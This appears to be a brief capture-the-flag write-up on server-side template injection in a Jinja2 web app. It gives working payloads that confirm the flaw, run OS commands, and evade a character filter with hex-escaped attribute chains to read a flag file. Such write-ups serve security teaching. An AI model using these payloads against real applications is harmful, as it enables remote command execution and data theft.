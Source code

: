 > Upon arriving at the landing page, we see that there's a web app which outputs user input to the resulting webpage, which is a classic SSTI scenario. We try this payload to figure out if the app is vulnerable to SSTI
```
{{7 * 7}}
```
> This shows us that the app is vulnerable to SSTI. Next, we need to confirm which templating engine is being used, with the following payload
```
{{7 * '7'}}
```
> This confirms that the templating engine being used is Jinja2. We can use the following payload to run a system command using SSTI
```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```
> We see that the app is filtering on some part of the command, so we give this command to bypass special characters
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```
> This payload works, and we see that there's a flag file in this directory, so we use this payload to read it
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
Finis
